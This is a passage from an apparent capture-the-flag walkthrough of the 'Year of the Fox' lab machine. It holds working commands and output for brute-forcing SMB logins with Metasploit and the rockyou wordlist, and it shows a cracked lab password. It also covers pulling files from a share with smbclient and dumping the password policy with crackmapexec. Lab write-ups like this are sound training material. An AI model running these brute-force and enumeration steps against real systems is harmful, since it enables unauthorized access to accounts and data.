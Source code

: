 ```bash
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  [+] lan\fox:fuckyou2 
```

`msfconsole -qx 'use auxiliary/scanner/smb/smb_login'`

```bash
msf6 auxiliary(scanner/smb/smb_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
PASS_FILE => /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser fox
SMBUser => fox
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.10.163.252
RHOSTS => 10.10.163.252
msf6 auxiliary(scanner/smb/smb_login) > run

[REDACTED] - SAME PASSWORD
```

> **SMB (Server Message Block) Share Gathering**
> 

`smbclient \\\\yearofthefox.thm\\yotf -U fox -t 500`

```bash
Password for [WORKGROUP\fox]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jun 19 21:08:50 2020
  ..                                  D        0  Fri Jun 19 21:43:41 2020
  cipher.txt                          N      317  Fri May 29 19:22:12 2020
  creds1.txt                          N      317  Tue Sep 10 06:01:02 2024

                5092992 blocks of size 1024. 2092436 blocks available
smb: \> mget *
Get file cipher.txt? y
getting file \cipher.txt of size 317 as cipher.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
Get file creds1.txt? y
getting file \creds1.txt of size 317 as creds1.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> 

```

`crackmapexec smb yearofthefox.thm -u fox -p fuckyou2 --content --pass-pol`

```bash
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  [*] Windows 6.1 (name:YEAR-OF-THE-FOX) (domain:lan) (signing:False) (SMBv1:True)
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  [+] lan\fox:fuckyou2 
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  [+] Dumping password info for domain: YEAR-OF-THE-FOX
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Minimum password length: 5
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Password history length: None
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Maximum password age: 37 days 6 hours 21 minutes 
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Password Complexity Flags: 000000
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX     Domain Refuse Password Change: 0
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX     Domain Password Store Cleartext: 0
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX     Domain Password Lockout Admins: 0
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX     Domain Password No Clear Change: 0
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX     Domain Password No Anon Change: 0
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX     Domain Password Complex: 0
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Minimum password age: None
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Reset Account Lockout Counter: 30 minutes 
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Locked Account Duration: 30 minutes 
```